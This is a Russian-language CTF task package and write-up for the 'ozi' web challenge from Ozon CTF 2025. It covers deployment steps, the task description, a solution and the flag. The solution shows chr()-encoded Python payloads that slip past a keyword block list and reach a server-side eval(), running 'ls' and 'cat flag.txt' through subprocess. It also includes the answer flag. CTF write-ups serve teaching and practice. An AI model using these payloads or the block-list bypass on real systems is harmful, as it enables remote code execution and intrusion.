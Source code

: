 # ozi | medium | web  

## Информация  

ozi — самый маленький стартап на свете. Говорят, его написало всего полгуся! Я не могу поверить, что он настолько идеально работает! Ты только посмотри, как всё идеально! Ты только попробуй — купи у них что-нибудь.

https://ozi.web.ozon-ctf-2025.ru

Внимание! Задание разворачивается в режиме per-instance. Атаковать деплоер не нужно!

## Деплой  

Запускаем задачу на сервере с помощью следующей команды:  

```sh
cd deploy
sudo chmod +x deploy.sh
./deploy.sh
```  

## Выдать участникам  

Архив из директории [public/](public/) и IP:PORT per instance deploy.  

## Описание  

На сайте есть функция публикации своего товара. В форме ввода цены проверка выполняется на стороне фронтенда.  
Задача — перехватить запрос создания карточки товара и подменить цену на вредоносный пейлоад.  
Также присутствует блок-лист запрещённых слов: `['.read()', 'eval', 'os', 'system', 'exec']`.  

## Решение  

Зайдя на сайт, видим достаточно простой интерфейс:  

![alt text](./img/image.png)

Пробуем добавить товар в корзину и смотрим, как он считает сумму:  

![alt text](./img/image-1.png)

Далее пытаемся опубликовать свой товар. При вводе вредоносного пейлоада получаем ошибку.  
Смотрим на тип инпута:  

![alt text](./img/image-2.png)  

Обнаруживаем, что можно вводить только цифры. Перехватываем запрос через Burp и подменяем цену.  

Изучаем исходный код страницы и находим функцию подсчёта суммы корзины:  

![alt text](./img/image-3.png)  

Замечаем, что сначала идёт проверка на запрещённые слова, а затем формируется выражение, которое выполняется через `eval()`.  
Ищем список запрещённых слов в файле `ban_words.py`, изучаем его и видим, что можно обойти ограничения с помощью `chr()`, зашифровав наш пейлоад.  

Перехватываем запрос и вставляем следующий пейлоад:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 108, 115, 39, 41]))
```

Этот код эквивалентен следующему:  

```python
__import__('subprocess').getoutput('ls')
```

Вставляем его:  

![alt text](./img/image-4.png) 

Видим, что добавился новый товар. Пробуем добавить его в корзину:  

![alt text](./img/image-5.png) 

Убеждаемся, что всё успешно работает, и получаем список файлов в директории. Теперь можем таким же образом прочитать флаг:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 39, 41]))  
```

Удаляем старый товар и добавляем новый в корзину:  

![alt text](./img/image-6.png) 

Получаем флаг!  

## Флаг  

`ozonctf{1s_reAl_g00d_Market_bAt_OZON_BEST}`

